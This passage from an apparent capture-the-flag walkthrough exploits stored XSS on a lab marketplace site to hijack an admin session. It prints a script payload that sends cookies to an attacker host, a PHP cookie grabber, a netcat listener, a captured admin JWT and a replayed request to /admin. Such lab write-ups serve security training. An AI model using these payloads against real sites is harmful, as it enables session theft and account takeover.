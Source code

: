 ## Stealing the admin cookie

We can take advantage of the XSS vulnerability to create a new listing, and report the listing to the admins. Once an admin will review our listing (we have seen previously that there is kind of a cron job that simulates this action), we will be able to steal his session using `grabber.php`.

Create a new listing and post the following content:

~~~
<script>document.location='http://10.8.50.72:8000/grabber.php?c='+document.cookie</script>
~~~

Now, create [grabber.php](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#data-grabber-for-xss) as follows:

```php
$ cat > grabber.php << EOF
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
EOF
```

Then run a listener (`nc -nlvp 8000`) and report the listing you've created to the admin (e.g. `http://10.10.4.48/report/3`).

In your listener, you should have a stolen copy of the admin's cookie:

~~~
┌──(kali㉿kali)-[/data/The_Marketplace/files]
└─$ nc -nlvp 8000
listening on [any] 8000 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.4.48] 36374
GET /grabber.php?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjE2NzQ1NjN9.SZDjFMO2_KIMpIoLWuD5Zt3fKggTM8AoTS7plL32uig HTTP/1.1
Host: 10.8.50.72:8000
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4182.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://localhost:3000/item/5
Accept-Encoding: gzip, deflate
Accept-Language: en-US
~~~

Now, browse the `/admin` location, intercept the request in Burp Suite and replace the token with the one from the admin:

~~~
GET /admin HTTP/1.1
Host: 10.10.4.48
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjE2NzQ1NjN9.SZDjFMO2_KIMpIoLWuD5Zt3fKggTM8AoTS7plL32uig
Upgrade-Insecure-Requests: 1
~~~
